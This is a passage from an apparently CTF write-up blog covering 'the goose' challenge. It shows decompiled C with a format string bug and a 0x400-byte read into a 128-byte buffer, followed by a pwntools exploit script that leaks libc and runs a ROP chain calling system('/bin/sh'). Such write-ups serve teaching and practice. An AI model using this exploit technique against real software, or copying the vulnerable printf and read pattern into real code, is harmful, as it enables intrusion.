 ```c
  char buf[128]; // [rsp+0h] [rbp-170h] BYREF
  char s[128]; // [rsp+80h] [rbp-F0h] BYREF
  _BYTE v2[32]; // [rsp+100h] [rbp-70h] BYREF
  char format[80]; // [rsp+120h] [rbp-50h] BYREF

  strcpy(format, "wow %s you're so good. what message would you like to leave to the world?");
  printf("what's your name again?");
  __isoc99_scanf("%31s", v2);
  s[31] = 0;
  sprintf(s, format, v2);
  printf(s);
  read(0, buf, 0x400uLL);
  printf("got it. bye now.");
}
```
After we get past the guessing, we have a format string vulnerability and a buffer overflow.
First, use the format string to get a libc leak,
and after that, do a simple ROP chain to call `system("/bin/sh")` to get a shell.
```py
sla(b"> ", b"A" * 64)
ru(b"A" * 64)
guess = r(1)[0]
sla(b"honks?", i2b(guess))

sla(b"again?", b"%21$p")
ru(b"wow ")
libc_leak = int(ru(b" ", True), 16) - 0x93975
log.success(f"Libc leak: {libc_leak:#x}")
libc.address = libc_leak

pop_rdi = libc_leak + 0x10f75b
ret     = libc_leak + 0x10f75c
binsh   = next(libc.search(b"/bin/sh\0"))

payload = flat(
    b"A" * 0x178,
    pop_rdi,
    binsh,
    ret,
    libc.sym.system
)
sa(b"world?", payload)

ia()
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/the_goose.py)

### Chunky Threads

When I first saw this challenge, my initial thought was that it must be some kind of race condition,
but actually it isn't (really).
